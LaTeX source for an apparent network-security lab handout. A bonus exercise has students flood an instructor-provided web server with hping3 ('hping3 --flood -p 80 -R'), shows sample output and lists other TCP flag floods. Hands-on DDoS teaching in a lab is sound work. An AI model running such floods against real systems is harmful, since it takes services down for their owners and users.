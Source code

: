\documentclass[a4paper,11pt,notitlepage]{report}
\begin{document}
{\bf Discussion:}\\
Gigabit Ethernet can send up to 1.4 million packets per second, pps.

There is a presentation about DDoS protection with low level technical measures to implement at\\
{\footnotesize {}}

Receiving systems, and those en route to the service, should be checked for resources like CPU load, bandwidth, logging. Logging can also overload the logging infrastructure, so take care when configuring this in your own networks.


\chapter{Bonus: TCP other flooding 15min}


{\bf Objective:}\\
Start a webserver attack using TCP flooding tool hping3.

{\bf Purpose:}\\
Run various other common attacks

TCP mode is default, so no option needed.


{\bf Suggested method:}\\
Connect to the LAB network using Ethernet! Borrow a USB network card if you dont have one.

Start your Kali VM in bridged mode, try a basic TCP flooding attack against the server provided by the instructor, or your own Debian server.

\begin{alltt}
hping3 --flood -p 80 -R 10.0.45.12
\end{alltt}

You should see something like this:
\begin{alltt}\footnotesize
HPING 10.0.45.12: NO FLAGS are set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
^C
--- 10.0.45.12 hping statistic ---
352339 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
\end{alltt}


{\bf Hints:}\\
Common attacks use the SYN, as shown in previous exercise, but other popular
TCP attacks are RST, PUSH, URG, FIN, ACK attacks - setting one or more flags in the packets.
\end{document}

